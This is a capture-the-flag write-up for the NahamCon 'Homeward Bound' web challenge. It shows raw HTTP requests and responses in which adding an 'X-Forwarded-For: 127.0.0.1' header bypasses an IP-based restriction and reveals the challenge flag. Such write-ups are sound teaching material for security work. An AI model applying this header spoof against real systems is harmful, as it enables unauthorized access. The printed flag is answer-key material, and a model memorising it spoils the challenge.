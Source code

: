 # Homeward Bound

Tags:

## Challenge

>Author: @JohnHammond#6971
>
>I can't get anything out of this website... can you find anything interesting?
>
>NOTE: That message is intended. This challenge is working as it should.
>
>Press the Start button on the top-right to begin this challenge.
>
>Connect with:
>
> http://challenge.nahamcon.com:32407


## Solving

### Original Request
```
GET / HTTP/1.1
Host: challenge.nahamcon.com:32407
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

Server response:

```
HTTP/1.1 200 OK
Date: Wed, 17 Mar 2021 12:02:56 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.0.33
Vary: Accept-Encoding
Content-Length: 1241
Connection: close
Content-Type: text/html; charset=UTF-8


Sorry, this page is not accessible externally.
```

### Modified Request
```
GET / HTTP/1.1
Host: challenge.nahamcon.com:32407
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

Server response:
```
HTTP/1.1 200 OK
Date: Wed, 17 Mar 2021 12:15:46 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.0.33
Vary: Accept-Encoding
Content-Length: 1285
Connection: close
Content-Type: text/html; charset=UTF-8


Welcome! Your internal access key is: flag{26080a2216e95746ec3e932002b9baa4}
```

`flag{26080a2216e95746ec3e932002b9baa4}`

### Informations
https://tools.ietf.org/html/rfc7239
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For
https://docs.aws.amazon.com/elasticloadbalancing/latest/classic/x-forwarded-headers.html
